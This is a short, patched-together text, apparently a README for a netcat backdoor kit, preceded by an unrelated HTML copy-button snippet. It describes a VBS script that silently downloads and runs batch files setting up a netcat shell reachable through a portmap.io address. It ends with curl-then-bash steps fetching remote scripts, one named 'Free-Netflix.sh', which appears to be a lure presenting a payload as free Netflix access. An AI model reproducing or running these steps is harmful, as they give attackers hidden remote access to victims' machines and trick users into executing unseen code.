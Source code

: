 <!-- The text field -->
<input type="text" value="Hello World" id="myInput">

<!-- The button used to copy the text -->
<button onclick="myFunction()">Copy text</button>


the two .bat files and vbs are going to be downloaded and executed by another vbs files named startupnetcat.vbs will download the three files 
and execute them invisibly
the netcat.bat have inside local and wan (portmap.io) ip so if locally ur ip changed just edit the netcat.bat file









Server command

1) curl -LO https://raw.githubusercontent.com/wolfyy59/wfy/master/server.sh  

2) bash server.sh

 
===

Netflix command 

===

1) curl -LO https://raw.githubusercontent.com/wolfyy59/wfy/master/Free-Netflix.sh

2) bash Free-Netflix.sh
